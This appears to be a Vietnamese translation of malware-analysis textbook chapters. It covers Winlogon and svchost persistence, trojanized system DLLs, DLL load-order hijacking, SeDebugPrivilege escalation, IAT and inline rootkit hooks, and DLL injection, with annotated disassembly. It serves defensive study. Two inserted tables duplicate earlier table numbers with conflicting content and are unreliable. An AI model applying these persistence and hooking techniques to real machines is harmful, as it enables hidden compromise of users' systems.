Tác giả mã độc có thể móc (hook) mã độc vào một sự kiện Winlogon cụ thể, chẳng hạn như logon, logoff, startup, shutdown và lock screen. Kỹ thuật này thậm chí có thể cho phép mã độc nạp ngay cả trong chế độ Safe Mode. Khóa registry này bao gồm giá trị `Notify` trong registry key sau:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\
```
Khi `winlogon.exe` tạo ra một sự kiện, Windows sẽ kiểm tra khóa registry `Notify` để tìm một DLL sẽ xử lý sự kiện đó.

<mark style="background: #FFF3A3A6;">SvcHost DLLs</mark>

Như đã thảo luận trong Chương 7, tất cả các service (dịch vụ) đều được duy trì trong registry, và nếu chúng bị xóa khỏi registry thì service sẽ không thể khởi động. Mã độc thường được cài đặt dưới dạng một Windows service, nhưng thường sử dụng tệp thực thi. Việc cài đặt mã độc dưới dạng một DLL chạy qua `svchost.exe` giúp mã độc dễ dàng ẩn mình vào danh sách tiến trình và registry tốt hơn so với một service tiêu chuẩn.

`Svchost.exe` là một tiến trình máy chủ chung (generic host process) cho các service chạy từ DLL, và các hệ thống Windows thường có nhiều tiến trình `svchost.exe` chạy cùng một lúc. Mỗi tiến trình `svchost.exe` chứa một nhóm các service giúp việc phát triển, kiểm thử và quản lý nhóm service dễ dàng hơn. Các nhóm này được định nghĩa tại vị trí registry sau (mỗi giá trị đại diện cho một nhóm khác nhau):
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
```
Các service được định nghĩa trong registry tại vị trí sau:
```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ServiceName
```
Các Windows service chứa nhiều giá trị registry, hầu hết trong số đó cung cấp thông tin về service, chẳng hạn như `DisplayName` và `Description`. Tác giả mã độc thường đặt các giá trị giúp mã độc dễ trà trộn, chẳng hạn như `NetWareMan` với mô tả: _"Provides access to file and print resources on NetWare networks."_ (Cung cấp quyền truy cập vào tài nguyên tệp và máy in trên mạng NetWare).

Một giá trị registry service khác là `ImagePath`, chứa đường dẫn tệp thực thi của service. Trong trường hợp của một DLL chạy qua `svchost.exe`, giá trị này sẽ chứa `%SystemRoot%/System32/svchost.exe -k GroupName`.

Tất cả các DLL của `svchost.exe` đều chứa khóa `Parameters` với giá trị `ServiceDLL`, được tác giả mã độc trỏ đến vị trí của DLL độc hại. Giá trị `Start`, cũng nằm dưới khóa `Parameters`, quyết định thời điểm service được khởi động (mã độc thường được cấu hình để khởi chạy trong quá trình khởi động hệ thống).

Windows đã định nghĩa sẵn một số nhóm service cố định, vì vậy mã độc thường sẽ không tạo nhóm mới do điều đó rất dễ bị phát hiện. Thay vào đó, hầu hết mã độc sẽ tự thêm mình vào một nhóm đã tồn tại từ trước hoặc ghi đè lên một service không quan trọng — thường là một service hiếm khi được sử dụng thuộc nhóm `netsvcs`. Để phát hiện kỹ thuật này, hãy theo dõi Windows Registry bằng phương pháp phân tích động, hoặc tìm kiếm các hàm thao tác service như `CreateServiceA` trong mã disassembly. Nếu mã độc đang sửa đổi các khóa registry này, bạn sẽ biết rằng nó đang sử dụng kỹ thuật persistence này.

#### b. Sửa Đổi Tệp Hệ Thống Nhị Phân (Trojanized System Binaries)

Một cách khác giúp mã độc đạt được persistence là "trojan hóa" các tệp nhị phân hệ thống (trojanizing system binaries). Với kỹ thuật này, mã độc vá (patch) các byte của một tệp nhị phân hệ thống để buộc hệ thống thực thi mã độc vào lần tiếp theo khi tệp nhị phân bị nhiễm được chạy hoặc nạp. Các tác giả mã độc thường nhắm mục tiêu vào tệp nhị phân hệ thống được sử dụng thường xuyên trong hoạt động bình thường của Windows. Các tệp DLL là mục tiêu phổ biến.

Một tệp nhị phân hệ thống thường bị sửa đổi bằng cách vá hàm entry point để nó nhảy đến mã độc. Bản vá sẽ ghi đè lên phần đầu của hàm hoặc một đoạn mã nào đó không bắt buộc đối với hoạt động của DLL bị trojan hóa. Mã độc hại được thêm vào một section trống của tệp nhị phân, để nó không ảnh hưởng đến hoạt động bình thường. Mã được chèn thường có nhiệm vụ nạp mã độc và sẽ hoạt động bất kể nó được chèn vào vị trí nào trong DLL bị nhiễm. Sau khi đoạn mã nạp mã độc thành công, nó sẽ nhảy ngược trở lại mã DLL gốc, đảm bảo mọi thứ vẫn hoạt động bình thường như trước khi bị vá.

Khi kiểm tra một hệ thống bị nhiễm, chúng tôi nhận thấy tệp nhị phân hệ thống `rtutils.dll` không có mã băm MD5 như mong đợi, vì vậy chúng tôi đã điều tra sâu hơn. Chúng tôi đã nạp phiên bản đáng ngờ của `rtutils.dll` cùng với một phiên bản sạch vào IDA Pro. Sự so sánh giữa các hàm `DllEntryPoint` của chúng được hiển thị trong _Bảng 11.1_. Sự khác biệt là rất rõ ràng: phiên bản bị trojan hóa đã nhảy đến một vị trí khác.

| **Original code**                                                                                                                                                                                    | **Trojanized code**                                                                                            |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| `DllEntryPoint(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)` <br>`mov edi, edi`<br>`push ebp`<br>`mov ebp, esp`<br>`push ebx`<br>`mov ebx, [ebp+8]`<br>`push esi`<br>`mov esi, [ebp+0Ch]` | `DllEntryPoint(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)`<br><br>  <br><br>`jmp DllEntryPoint_0` |

_Table 11.1: Điểm vào DLL (DLL Entry Point) của rtutils.dll trước và sau khi bị Trojan hóa_

Đoạn mã _11.5_ hiển thị đoạn mã độc đã được chèn vào tệp `rtutils.dll` bị nhiễm.
```
76E8A660 DllEntryPoint_0
76E8A660 pusha
76E8A661 call    sub_76E8A667       ; [1]
76E8A666 nop
76E8A667 sub_76E8A667
76E8A667 pop     ecx
76E8A668 mov     eax, ecx
76E8A66A add     eax, 24h
76E8A66D push    eax
76E8A66E add     ecx, 0FFFF69E2h
76E8A674 mov     eax, [ecx]
76E8A677 add     eax, 0FFF00D7Bh
76E8A67C call    eax                ; LoadLibraryA
76E8A67E popa
76E8A67F mov     edi, edi           ; [2]
76E8A681 push    ebp
76E8A682 mov     ebp, esp
76E8A684 jmp     loc_76E81BB2
...
76E8A68A aMsconf32_dll db 'msconf32.dll',0 ; [3]
```
_Listing 11.5: Đoạn mã độc được vá và chèn vào một DLL hệ thống_

Như bạn thấy, hàm có nhãn `DllEntryPoint_0` thực hiện một lệnh `pusha`, lệnh thường được dùng trong mã độc để lưu lại trạng thái ban đầu của các thanh ghi nhằm phục hồi lại sau đó bằng lệnh `popa` khi tiến trình độc hại hoàn tất. Tiếp theo, mã gọi hàm `sub_76E8A667` tại `[1]`, và hàm này được thực thi. Hãy chú ý rằng nó bắt đầu bằng một lệnh `pop ecx`, lệnh này sẽ đưa địa chỉ trả về vào thanh ghi ECX (vì lệnh pop xuất hiện ngay sau lệnh call). Sau đó, đoạn mã cộng thêm `0x24` vào địa chỉ trả về này (`0x76E8A666 + 0x24 = 0x76E8A68A`) rồi đẩy nó lên ngăn xếp. Vị trí `0x76E8A68A` chứa chuỗi ký tự `'msconf32.dll'`, như thấy tại `[3]`. Lời gọi tới `LoadLibraryA` khiến bản vá nạp `msconf32.dll`. Điều này đồng nghĩa với việc `msconf32.dll` sẽ được chạy và nạp bởi bất kỳ tiến trình nào nạp `rtutils.dll` dưới dạng module, bao gồm cả `svchost.exe`, `explorer.exe` và `winlogon.exe`.

Sau lời gọi `LoadLibraryA`, bản vá thực thi lệnh `popa`, nhờ đó khôi phục lại trạng thái hệ thống đã được lưu trước đó bởi lệnh `pusha` ban đầu. Sau `popa` là ba lệnh (bắt đầu tại `[2]`) hoàn toàn trùng khớp với ba lệnh đầu tiên trong hàm `DllEntryPoint` sạch của `rtutils.dll` đã được chỉ ra trong Bảng 11-1. Tiếp theo các lệnh này là một lệnh `jmp` quay trở về hàm `DllEntryPoint` ban đầu.

#### c. Chiếm Đoạt Thứ Tự Nạp DLL (DLL Load-Order Hijacking)

DLL load-order hijacking là một kỹ thuật đơn giản, lén lút cho phép các tác giả mã độc tạo ra các DLL độc hại bền bỉ mà không cần đến khóa registry hay việc trojan hóa tệp nhị phân. Kỹ thuật này thậm chí không cần đến một loader độc hại riêng biệt, vì nó lợi dụng chính cơ chế nạp DLL của hệ điều hành Windows.

Thứ tự tìm kiếm mặc định khi nạp DLL trên Windows XP diễn ra như sau:

1. Thư mục chứa ứng dụng được nạp
2. Thư mục hiện hành (current directory)
3. Thư mục hệ thống (hàm `GetSystemDirectory` được sử dụng để lấy đường dẫn, ví dụ: `.../Windows/System32/`)
4. Thư mục hệ thống 16-bit (ví dụ: `.../Windows/System/`)
5. Thư mục Windows (hàm `GetWindowsDirectory` được sử dụng để lấy đường dẫn, ví dụ: `.../Windows/`)
6. Các thư mục được liệt kê trong biến môi trường `PATH`

Trên Windows XP, quy trình nạp DLL có thể được bỏ qua bằng cách sử dụng khóa registry `KnownDLLs`, khóa này chứa một danh sách các vị trí DLL cụ thể, thường nằm trong `.../Windows/System32/`. Cơ chế KnownDLLs được thiết kế để cải thiện tính bảo mật (các DLL độc hại không thể đặt ở vị trí ưu tiên hơn trong thứ tự nạp) và tốc độ (Windows không cần thực hiện tìm kiếm mặc định theo danh sách nêu trên), nhưng nó chỉ chứa một danh sách ngắn các DLL quan trọng nhất.

DLL load-order hijacking có thể được áp dụng đối với các tệp nhị phân nằm trong các thư mục khác ngoài `/System32` có nạp các DLL trong `/System32` vốn không được bảo vệ bởi KnownDLLs. Ví dụ, `explorer.exe` trong thư mục `/Windows` nạp `ntshrui.dll` nằm trong `/System32`. Do `ntshrui.dll` không phải là một KnownDLL, thứ tự tìm kiếm mặc định sẽ được áp dụng, và thư mục `/Windows` sẽ được kiểm tra trước thư mục `/System32`. Nếu một DLL độc hại có tên `ntshrui.dll` được đặt trong `/Windows`, nó sẽ được nạp thay vì DLL hợp lệ. Sau đó, DLL độc hại có thể tự nạp DLL thật để đảm bảo hệ thống tiếp tục vận hành bình thường.

Bất kỳ tệp nhị phân khởi động nào không nằm trong `/System32` đều có nguy cơ bị tấn công bởi kỹ thuật này, và `explorer.exe` có khoảng 50 DLL dễ bị khai thác. Ngoài ra, ngay cả các known DLL cũng không được bảo vệ toàn diện do các recursive import (import đệ quy), và bởi vì nhiều DLL lại nạp các DLL khác vốn tuân theo thứ tự tìm kiếm mặc định.

| Vị trí mã lệnh | Mã nhị phân gốc (Trước khi trojanize) | Mã nhị phân bị tiêm (Sau khi trojanize) |
| :--- | :--- | :--- |
| `rtutils.dll:EntryPoint` | `8B FF 55 8B EC ...` (Thiết lập stack frame chuẩn) | `E9 54 23 00 00` (`jmp evil_payload`) |
| `evil_payload` | *(Không tồn tại)* | Thực thi backdoor ngầm, sau đó nhảy về mã gốc |

*Bảng 11.1: So sánh điểm nhập Entry Point của rtutils.dll trước và sau khi bị cấy mã độc ngầm.*

| Bước thực thi | Hợp ngữ nguyên bản | Hợp ngữ bị Inline Hook | Tác vụ bảo mật / mã độc |
| :--- | :--- | :--- | :--- |
| Byte 0 – 4 | `8B FF` (`mov edi, edi`)<br>`55` (`push ebp`)<br>`8B EC` (`mov ebp, esp`) | `E9 XX XX XX XX` (`jmp HookFunction`) | Chuyển hướng luồng thực thi sang hàm độc hại |
| Hàm Hook | *(Không có)* | Đọc tham số bí mật, sửa đổi dữ liệu trả về | Đánh cắp thông tin xác thực |
| Trampoline | *(Không có)* | Chạy 5 byte mã gốc đã lưu, rồi nhảy về `TargetFunction+5` | Đảm bảo hệ thống không bị crash |

*Bảng 11.2: Cấu trúc cơ chế Inline Hook 5-7 byte kinh điển trên Windows 32-bit.*

### 11.5 Kỹ Thuật Leo Thang Đặc Quyền (Privilege Escalation)

Hầu hết người dùng đều đăng nhập với quyền quản trị viên cục bộ (local administrator), đây là tin vui cho các tác giả mã độc. Điều này có nghĩa là người dùng có quyền quản trị trên máy, và có thể cấp cho mã độc chính các quyền hạn đó.

Cộng đồng bảo mật khuyến cáo không nên chạy hệ thống dưới quyền local administrator, để nếu bạn vô tình chạy mã độc, nó sẽ không tự động có toàn quyền truy cập vào hệ thống. Nếu người dùng khởi chạy mã độc trên hệ thống mà không có quyền administrator, mã độc thường sẽ cần thực hiện một cuộc tấn công leo thang đặc quyền (privilege escalation) để giành toàn quyền kiểm soát.

Phần lớn các cuộc tấn công leo thang đặc quyền dựa trên các lỗ hổng đã biết hoặc các cuộc tấn công zero-day nhằm vào hệ điều hành cục bộ, nhiều lỗ hổng trong số đó có thể tìm thấy trong Metasploit Framework (`[http://www.metasploit.com/](http://www.metasploit.com/)`). DLL load-order hijacking thậm chí cũng có thể được sử dụng để leo thang đặc quyền. Nếu thư mục chứa DLL độc hại cho phép người dùng ghi dữ liệu, và tiến trình nạp DLL đó chạy ở mức đặc quyền cao hơn, thì DLL độc hại sẽ giành được các đặc quyền cao đó. Mã độc có tích hợp tính năng leo thang đặc quyền tương đối hiếm, nhưng cũng đủ phổ biến để một nhà phân tích cần nhận biết được nó.

Đôi khi, ngay cả khi người dùng đang chạy dưới quyền administrator cục bộ, mã độc vẫn cần phải thực hiện leo thang đặc quyền. Các tiến trình chạy trên máy Windows được thực thi ở mức người dùng (user level) hoặc mức hệ thống (system level). Người dùng thông thường không thể thao tác với các tiến trình ở mức hệ thống, ngay cả khi họ là quản trị viên. Tiếp theo, chúng ta sẽ thảo luận về một cách phổ biến mà mã độc áp dụng để lấy các đặc quyền cần thiết nhằm can thiệp vào các tiến trình mức hệ thống trên máy Windows.

#### a. Kích Hoạt Đặc Quyền SeDebugPrivilege

Các tiến trình do người dùng chạy không có quyền truy cập tự do vào mọi thứ, và chẳng hạn, không thể gọi các hàm như `TerminateProcess` hoặc `CreateRemoteThread` lên các tiến trình từ xa. Một cách mà mã độc sử dụng để truy cập các hàm này là thiết lập quyền của access token nhằm bật đặc quyền `SeDebugPrivilege`. Trong hệ thống Windows, access token là một đối tượng chứa security descriptor của một tiến trình. Security descriptor được dùng để chỉ định quyền truy cập của chủ sở hữu — trong trường hợp này là tiến trình. Một access token có thể được điều chỉnh bằng cách gọi hàm `AdjustTokenPrivileges`.

Đặc quyền `SeDebugPrivilege` ban đầu được tạo ra như một công cụ phục vụ việc gỡ lỗi ở cấp độ hệ thống, nhưng các tác giả mã độc đã khai thác nó để chiếm toàn quyền truy cập vào một tiến trình cấp hệ thống. Theo mặc định, `SeDebugPrivilege` chỉ được cấp cho các tài khoản local administrator, và việc cấp `SeDebugPrivilege` cho bất kỳ ai về bản chất tương đương với việc trao cho họ quyền truy cập của tài khoản `LocalSystem`. Một tài khoản người dùng bình thường không thể tự cấp quyền `SeDebugPrivilege` cho chính mình; yêu cầu đó sẽ bị từ chối.

Đoạn mã _11.6_ cho thấy cách mã độc kích hoạt đặc quyền `SeDebugPrivilege` của nó.
```
00401003 lea     eax, [esp+1Ch+TokenHandle]
00401006 push    eax                     ; TokenHandle
00401007 push    (TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY) ; DesiredAccess
00401009 call    ds:GetCurrentProcess
0040100F push    eax                     ; ProcessHandle
00401010 call    ds:OpenProcessToken     ; [1]
00401016 test    eax, eax
00401018 jz      short loc_401080
0040101A lea     ecx, [esp+1Ch+Luid]
0040101E push    ecx                     ; lpLuid
0040101F push    offset Name             ; "SeDebugPrivilege"
00401024 push    0                       ; lpSystemName
00401026 call    ds:LookupPrivilegeValueA
0040102C test    eax, eax
0040102E jnz     short loc_40103E
...
0040103E mov     eax, [esp+1Ch+Luid.LowPart]
00401042 mov     ecx, [esp+1Ch+Luid.HighPart]
00401046 push    0                       ; ReturnLength
00401048 push    0                       ; PreviousState
0040104A push    10h                     ; BufferLength
0040104C lea     edx, [esp+28h+NewState]
00401050 push    edx                     ; NewState
00401051 mov     [esp+2Ch+NewState.Privileges.Luid.LowPt], eax  ; [3]
00401055 mov     eax, [esp+2Ch+TokenHandle]
00401059 push    0                       ; DisableAllPrivileges
0040105B push    eax                     ; TokenHandle
0040105C mov     [esp+34h+NewState.PrivilegeCount], 1
00401064 mov     [esp+34h+NewState.Privileges.Luid.HighPt], ecx ; [4]
00401068 mov     [esp+34h+NewState.Privileges.Attributes], SE_PRIVILEGE_ENABLED ; [5]
00401070 call    ds:AdjustTokenPrivileges ; [2]
```

_Listing 11.6: Thiết lập access token sang SeDebugPrivilege_

Access token được lấy bằng cách gọi hàm `OpenProcessToken` tại `[1]`, truyền vào process handle của nó (lấy từ lời gọi `GetCurrentProcess`), cùng với quyền truy cập mong muốn (ở đây là để truy vấn và điều chỉnh đặc quyền). Tiếp theo, mã độc gọi `LookupPrivilegeValueA`, hàm này truy xuất Locally Unique Identifier (LUID). LUID là một cấu trúc đại diện cho đặc quyền cụ thể (trong trường hợp này là `SeDebugPrivilege`).

Thông tin thu được từ `OpenProcessToken` và `LookupPrivilegeValueA` được sử dụng trong lệnh gọi hàm `AdjustTokenPrivileges` tại `[2]`. Một cấu trúc quan trọng là `PTOKEN_PRIVILEGES` cũng được truyền vào `AdjustTokenPrivileges` và được IDA Pro gắn nhãn là `NewState`. Hãy để ý cấu trúc này thiết lập các bit thấp và bit cao của LUID bằng kết quả từ `LookupPrivilegeValueA` qua một quy trình hai bước tại `[3]` và `[4]`. Phần `Attributes` của cấu trúc `NewState` được đặt thành `SE_PRIVILEGE_ENABLED` tại `[5]`, nhằm kích hoạt `SeDebugPrivilege`.

Sự kết hợp các lời gọi hàm này thường xuất hiện trước đoạn mã thao tác với tiến trình hệ thống. Khi bạn thấy một hàm chứa đoạn mã này, hãy gắn nhãn (label) cho nó và chuyển sang phần khác. Bạn thường không cần phải phân tích tỉ mỉ từng chi tiết phức tạp của phương thức leo thang mà mã độc sử dụng.

### 11.6 Kỹ Thuật Xóa Dấu Vết và Rootkit User-Mode

Mã độc thường sử dụng nhiều biện pháp tinh vi để che giấu các tiến trình đang chạy và cơ chế duy trì persistence của chúng khỏi người dùng. Công cụ phổ biến nhất được sử dụng để che giấu hoạt động độc hại được gọi là rootkit.

Rootkit có thể xuất hiện dưới nhiều hình thức, nhưng hầu hết chúng hoạt động bằng cách sửa đổi chức năng nội bộ của hệ điều hành. Những sửa đổi này làm cho các tệp tin, tiến trình, kết nối mạng hoặc các tài nguyên khác trở nên vô hình đối với các chương trình khác, khiến các sản phẩm diệt virus, quản trị viên và chuyên gia phân tích bảo mật rất khó phát hiện ra hành vi độc hại.

Một số rootkit can thiệp vào các ứng dụng trong không gian người dùng (user-space), nhưng phần lớn can thiệp vào kernel, do các cơ chế bảo vệ như hệ thống ngăn ngừa xâm nhập (IPS) được cài đặt và vận hành ở cấp độ kernel. Cả rootkit lẫn cơ chế phòng thủ đều hoạt động hiệu quả hơn khi chạy ở kernel level so với user level. Ở cấp độ kernel, rootkit có thể làm hỏng hệ thống dễ dàng hơn so với cấp độ user. Kỹ thuật ở chế độ kernel như SSDT hooking và IRP hook đã được thảo luận trong Chương 10.

Ở đây, chúng tôi sẽ giới thiệu cho bạn một số kỹ thuật rootkit ở không gian người dùng (user-space rootkit), giúp bạn nắm được khái niệm tổng quát về cách chúng hoạt động và cách nhận diện chúng trong thực tế. (Có hẳn những cuốn sách viết riêng về rootkit, và chúng tôi sẽ chỉ đề cập lướt qua bề mặt trong phần này.)

Một chiến lược tốt để xử lý các rootkit cài hook ở cấp người dùng là trước tiên xác định xem hook được đặt như thế nào, sau đó tìm hiểu xem hook đó làm nhiệm vụ gì. Bây giờ chúng ta sẽ xem xét các kỹ thuật IAT hooking và inline hooking.

#### a. Can Thiệp Bảng Địa Chỉ Hàm Nhập (IAT Hooking)

IAT hooking là một phương pháp rootkit kinh điển trong user-space dùng để ẩn các tệp, tiến trình hoặc kết nối mạng trên hệ thống cục bộ. Phương pháp hooking này sửa đổi Bảng địa chỉ import (Import Address Table - IAT) hoặc Bảng địa chỉ export (Export Address Table - EAT). Một ví dụ về IAT hooking được hiển thị trong Hình 11-4. Một chương trình hợp lệ gọi hàm `TerminateProcess`, như thấy tại `[1]`. Thông thường, đoạn mã sẽ sử dụng IAT để truy cập vào hàm đích trong `Kernel32.dll`, nhưng nếu một IAT hook đã được cài đặt, như được chỉ ra tại `[2]`, mã độc hại của rootkit sẽ được gọi thay thế. Mã rootkit sau đó sẽ trả quyền thực thi về chương trình hợp lệ để cho phép hàm `TerminateProcess` thực thi sau khi đã thao túng một số tham số. Trong ví dụ này, IAT hook ngăn chặn chương trình hợp lệ chấm dứt một tiến trình.

Kỹ thuật IAT là một dạng hooking cũ và dễ bị phát hiện, vì vậy nhiều rootkit hiện đại đã chuyển sang sử dụng phương pháp nâng cao hơn là inline hooking.

#### b. Can Thiệp Mã Lệnh Trực Tiếp (Inline Hooking)

Inline hooking ghi đè trực tiếp lên mã hàm API nằm trong các DLL được import, vì vậy nó phải đợi cho đến khi DLL được nạp thì mới bắt đầu thực thi. IAT hooking chỉ đơn thuần là sửa đổi các con trỏ (pointers), nhưng inline hooking thay đổi chính đoạn mã thực tế của hàm.

Một rootkit độc hại thực hiện inline hooking thường sẽ thay thế phần đầu của đoạn mã bằng một lệnh nhảy (`jmp`) chuyển hướng thực thi tới mã độc được chèn bởi rootkit. Ngoài ra, rootkit có thể chỉnh sửa mã của hàm để vô hiệu hóa hoặc thay đổi hành vi của nó thay vì nhảy sang mã độc.

Một ví dụ về inline hooking trên hàm `ZwDeviceIoControlFile` được hiển thị trong Đoạn mã _11.7_. Hàm này được các chương trình như `Netstat` sử dụng để lấy thông tin mạng từ hệ thống.
```
100014B4 mov     edi, offset ProcName ; "ZwDeviceIoControlFile"
100014B9 mov     esi, offset ntdll    ; "ntdll.dll"
100014BE push    edi                  ; lpProcName
100014BF push    esi                  ; lpLibFileName
100014C0 call    ds:LoadLibraryA
100014C6 push    eax                  ; hModule
100014C7 call    ds:GetProcAddress    ; [1]
100014CD test    eax, eax
100014CF mov     Ptr_ZwDeviceIoControlFile, eax
```
_Listing 11.7: Ví dụ về inline hooking_

Vị trí của hàm bị hook được lấy tại `[1]`. Mục tiêu của rootkit này là cài đặt một inline hook dài 7 byte vào phần đầu của hàm `ZwDeviceIoControlFile` trong bộ nhớ. _Bảng 11.2_ cho thấy cách hook được khởi tạo; các byte thô (raw bytes) hiển thị ở bên trái và mã assembly hiển thị ở bên phải.

Mã assembly bắt đầu bằng opcode `0xB8` (`mov imm/r`), theo sau là 4 byte số 0, và sau đó là các opcode `0xFF 0xE0` (`jmp eax`). Rootkit sẽ điền một địa chỉ vào các byte số 0 này trước khi cài đặt hook để lệnh `jmp` trở nên hợp lệ. Bạn có thể kích hoạt chế độ xem này bằng cách nhấn phím `C` trên bàn phím trong IDA Pro.

Rootkit sử dụng một hàm `memcpy` đơn giản để vá các byte 0 nhằm chứa địa chỉ của hàm hook của nó, vốn dùng để che giấu lưu lượng mạng đến cổng 443. Chú ý rằng địa chỉ được cung cấp (`10004011`) khớp với địa chỉ của các byte 0 trong ví dụ trước.
```
100014D9 push    4
100014DB push    eax
100014DC push    offset unk_10004011
100014E1 mov     eax, offset hooking_function_hide_Port_443
100014E8 call    memcpy
```

| **Raw bytes**                                                                                                                              | **Disassembled bytes**                      |
| ------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `10004010 db 0B8h`<br>`10004011 db 0`<br>`10004012 db 0`<br>`10004013 db 0`<br>`10004014 db 0`<br>`10004015 db 0FFh`<br>`10004016 db 0E0h` | `10004010 mov eax, 0`<br>`10004015 jmp eax` |

_Table 11.2: Bản vá Inline Hook 7-byte_

Các byte bản vá (`10004010`) và vị trí hook sau đó được gửi đến một hàm thực hiện việc cài đặt inline hook, như được hiển thị trong _Đoạn mã 11.8_.
```
100014ED push    7
100014EF push    offset Ptr_ZwDeviceIoControlFile
100014F4 push    offset 10004010 ; patchBytes
100014F9 push    edi
100014FA push    esi
100014FB call    Install_inline_hook
```
_Listing 11.8: Cài đặt một inline hook_

Bây giờ `ZwDeviceIoControlFile` sẽ gọi hàm của rootkit trước tiên. Hàm hook của rootkit loại bỏ toàn bộ lưu lượng hướng tới cổng 443 và sau đó gọi `ZwDeviceIoControlFile` thật, để mọi thứ tiếp tục hoạt động như trước khi hook được cài đặt.

Vì nhiều phần mềm phòng thủ thường kiểm tra xem inline hook có được cài đặt ở đầu hàm hay không, một số tác giả mã độc đã tìm cách chèn lệnh `jmp` hoặc sửa đổi mã nằm sâu hơn bên trong thân mã của API để khiến nó trở nên khó bị phát hiện hơn.

## Chương 12: Kỹ Thuật Khởi Chạy Mã Độc Bí Mật (Covert Malware Launching)

Khi các hệ thống máy tính và người dùng ngày càng trở nên am hiểu và tinh vi hơn, mã độc cũng đã tiến hóa theo. Ví dụ, vì nhiều người dùng đã biết cách liệt kê các tiến trình bằng Windows Task Manager (nơi mà phần mềm độc hại trước đây thường lộ diện), các tác giả mã độc đã phát triển nhiều kỹ thuật để hòa lẫn mã độc của chúng vào môi trường thông thường của Windows nhằm mục đích che giấu.

Chương này tập trung vào một số phương pháp mà tác giả mã độc sử dụng để tránh bị phát hiện, được gọi là các kỹ thuật khởi chạy lén lút (covert launching techniques). Tại đây, bạn sẽ học cách nhận biết các cấu trúc mã (code constructs) và các mẫu lập trình giúp bạn xác định những cách thức phổ biến mà mã độc được khởi chạy ngầm.

### 12.1 Trình Khởi Chạy (Launchers)

Như đã thảo luận trong chương trước, một launcher (còn gọi là loader) là một loại mã độc thiết lập cho chính nó hoặc một phần mềm độc hại khác để thực thi lén lút ngay lập tức hoặc trong tương lai. Mục tiêu của launcher là thiết lập môi trường sao cho hành vi độc hại được che giấu khỏi người dùng.

Launcher thường chứa sẵn mã độc mà chúng được thiết kế để nạp. Ví dụ phổ biến nhất là một tệp thực thi hoặc DLL nằm ngay trong section tài nguyên (resource section) của chính nó. Section tài nguyên trong định dạng tệp PE của Windows được sử dụng bởi tệp thực thi và không được coi là một phần mã chạy của tệp thực thi. Các nội dung thông thường trong resource section bao gồm icon, hình ảnh, menu và chuỗi ký tự (strings). Launcher thường sẽ lưu trữ mã độc bên trong section tài nguyên này. Khi launcher được chạy, nó sẽ trích xuất tệp thực thi hoặc DLL được nhúng từ resource section trước khi khởi chạy nó.

Như bạn đã thấy trong các ví dụ trước, nếu section tài nguyên bị nén hoặc mã hóa, mã độc phải thực hiện trích xuất resource section trước khi nạp. Điều này thường đồng nghĩa với việc bạn sẽ thấy launcher sử dụng các hàm API thao tác tài nguyên như `FindResource`, `LoadResource`, và `SizeofResource`.

Mã độc launcher thường phải chạy với quyền quản trị viên (administrator privileges) hoặc tự leo thang đặc quyền để có được các quyền đó. Các tiến trình người dùng thông thường không thể thực hiện tất cả các kỹ thuật mà chúng ta thảo luận trong chương này. Chúng ta đã thảo luận về việc leo thang đặc quyền trong chương trước. Việc launcher có thể chứa mã leo thang đặc quyền cung cấp thêm một dấu hiệu nữa để nhận diện chúng.

### 12.2 Tiêm Mã Vào Tiến Trình (Process Injection)

Kỹ thuật khởi chạy lén lút phổ biến nhất là chèn tiến trình (process injection). Đúng như tên gọi, kỹ thuật này chèn mã vào một tiến trình đang chạy khác, và tiến trình đó sẽ vô tình thực thi đoạn mã độc hại. Các tác giả mã độc sử dụng process injection nhằm che giấu hành vi độc hại của mã, và đôi khi họ sử dụng cách này để cố gắng vượt qua tường lửa dựa trên máy chủ (host-based firewalls) cùng các cơ chế bảo mật theo từng tiến trình cụ thể khác.

Một số lời gọi Windows API thường được sử dụng cho process injection. Ví dụ, hàm `VirtualAllocEx` có thể được dùng để cấp phát không gian trong bộ nhớ của tiến trình bên ngoài, và `WriteProcessMemory` có thể được dùng để ghi dữ liệu vào không gian đã được cấp phát đó. Cặp hàm này là thiết yếu đối với ba kỹ thuật nạp đầu tiên mà chúng ta sẽ thảo luận trong chương này.

#### a. Tiêm Thư Viện Liên Kết Động (DLL Injection)



*Hình 12.2: Quan sát quá trình gọi CreateRemoteThread để tiêm DLL trong Debugger.*

DLL injection — một dạng của process injection trong đó một tiến trình từ xa bị ép buộc phải nạp một DLL độc hại — là kỹ thuật nạp lén lút được sử dụng phổ biến nhất. DLL injection hoạt động bằng cách chèn mã vào một tiến trình từ xa để gọi `LoadLibrary`, từ đó ép buộc một DLL được nạp trong ngữ cảnh (context) của tiến trình đó. Một khi tiến trình bị xâm nhập nạp DLL độc hại, hệ điều hành sẽ tự động gọi hàm `DllMain` của DLL, vốn được định nghĩa bởi tác giả của DLL. Hàm này chứa mã độc hại và có toàn quyền truy cập hệ thống tương đương với tiến trình mà nó đang chạy bên trong. Các DLL độc hại thường có rất ít nội dung ngoại trừ hàm `DllMain`, và mọi thứ chúng thực hiện sẽ xuất hiện như thể bắt nguồn từ chính tiến trình bị xâm nhập.


Hình _12.1_ cho thấy một ví dụ về DLL injection. Trong ví dụ này, mã độc launcher chèn DLL của nó vào bộ nhớ của Internet Explorer, từ đó cấp cho DLL được chèn quyền truy cập Internet giống như Internet Explorer. Trước khi chèn, mã độc loader không thể truy cập Internet vì một tường lửa kiểm soát theo tiến trình đã phát hiện và chặn nó.

